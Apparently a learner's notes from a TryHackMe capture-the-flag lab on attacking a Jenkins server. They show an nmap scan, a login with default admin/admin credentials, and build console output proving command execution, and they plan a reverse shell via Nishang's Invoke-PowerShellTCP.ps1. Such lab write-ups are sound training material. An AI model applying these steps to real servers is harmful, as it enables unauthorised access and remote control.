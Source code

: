 ### Exploiting Jenkins ###
        #Jenkins = continuous integration/development pipelines

### Initial Access - Nishang [reverse shell scripts] ###
(kali㉿kali)-[~/THM/practice/alfred]
└─$ nmap -sT -sV 10.10.131.14
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-04 12:17 EST
Stats: 0:01:27 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 12:19 (0:00:00 remaining)
Nmap scan report for 10.10.131.14
Host is up (0.020s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.32 seconds
# TCP ports open = 3 
# uname + password = admin + admin 

# found on http://10.10.131.14:
RIP Bruce Wayne

Donations to alfred@wayneenterprises.com are greatly appreciated. 

# found under builds:
SuccessConsole Output

Started by user admin
Running as SYSTEM
Building in workspace C:\Program Files (x86)\Jenkins\workspace\project
[project] $ cmd /c call C:\Users\bruce\AppData\Local\Temp\jenkins8034204804437582227.bat

C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>exit 0 
Finished: SUCCESS


# feature of tool allowig executing commands = 
        # this will be used to get a reverse shell: new item > pipeline 
# shell to use = Invoke-PowerShellTCP.ps1
